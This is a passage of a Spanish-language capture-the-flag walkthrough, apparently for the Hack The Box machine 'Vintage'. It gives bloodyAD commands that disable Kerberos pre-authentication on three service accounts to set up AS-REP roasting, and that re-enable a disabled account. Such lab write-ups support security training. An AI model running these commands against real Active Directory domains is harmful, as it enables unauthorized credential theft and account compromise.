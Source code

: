 <figure><img src="../../.gitbook/assets/2729_vmware_eU1xLKwzv2.png" alt=""><figcaption></figcaption></figure>

Procederemos a establecer con **bloodyAD** para que los 3 usuarios sean susceptibles al **AS-REP Roast Attack** y procederemos a activar nuevamente al usuario (svc\_sql@vintage.htb) a través de los siguientes comandos.

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_ARK' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_LDAP' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_SQL' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k remove uac 'SVC_SQL' -f ACCOUNTDISABLE
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
